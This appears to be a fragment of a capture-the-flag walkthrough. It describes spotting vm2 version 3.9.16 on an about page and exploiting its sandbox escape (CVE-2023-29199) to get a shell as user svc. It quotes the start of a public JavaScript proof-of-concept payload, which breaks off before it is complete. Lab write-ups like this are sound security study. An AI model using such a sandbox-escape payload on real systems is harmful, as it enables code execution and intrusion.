 
# User Flag
---

## Shell as svc


### Sandbox Escape in vm2@3.9.16 (CVE-2023-29199)

In about page, **vm2** with version 3.9.16 was disclosed

![](/assets/obsidian/0f9c55fdefa29ab7446d897f585d647f.png)

Google : `vm2 3.9.16 exploit`

> https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

![](/assets/obsidian/49484794196f6ebdd99fe919d175a79b.png)

Payload :

```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
```